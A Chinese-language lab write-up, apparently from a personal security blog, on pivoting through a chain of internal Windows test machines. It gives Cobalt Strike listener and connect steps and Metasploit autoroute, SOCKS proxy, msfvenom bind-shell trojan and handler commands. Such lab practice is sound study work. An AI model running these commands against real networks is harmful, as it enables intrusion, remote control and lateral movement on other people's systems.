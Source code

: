 ```yaml
---
title: 代理实验
date: 2024-03-13 23:10 +0800
categories: [内网] 
tags: [代理,通信]
img_path: /img/Intranet/
---
```


![截图](2cb738a9e4f068239dcdd19896806409.png)

大致是，首先攻击机在win7上建立反向shell（reserve_tcp）， 而后在后续几个内网机子上建立正向shell（bind_tcp），通过利用win7去访问链接后面几台的shell，以此来使得攻击机可以将win7作为代理机器去访问内网的情况。

**代理情况具体如下：**

- 攻击机将win7作为代理，主动连接访问win10；
- 将win10作为代理，主动连接win2008；
- 将win2008作为代理，主动访问win2012.

### CS

首先建立一个反弹shell，监听器的选择是：

```bash
beacon http
```

而后，生产正向shell，监听器的选择是：

```bash
beacon tcp
```

然后，分别投到对应的靶机上，启动！！！！

接着，在反弹shell上线的机子的控制台中，输入conne 【对应ip】 【对应端口】 即可， 例如：

```bash
connect 192.168.22.129 2224
```

### MSF

#### 1、在首先拿到了反弹shell，即win7的控制权后：

在shell的控制台：

```bash
# 查看路由信息
run autoroute -p
run post/multi/manage/autoroute
```

在msf的控制台：

```bash
route add 192.168.11.0 255.255.255.0 1
```

#### 设置全局代理

在msf的控制台：

```bash
use auxiliary/server/socks_proxy
set srvhost 0.0.0.0
set srvport 1115
run
```

#### 2、开始正向连接内网

生产正向连接木马，上传到对应内网靶机，启动：

```bash
msfvenom -p windows/meterpreter/bind_tcp LHOST=0.0.0.0 LPORT=3333 -f exe > bd.exe
```

在原先的msf控制台里，继续运行：

```bash
use exploit/multi/handler
set payload windows/meterpreter/bind_tcp
set rhost 192.168.11.129
set lport 3333
run
```
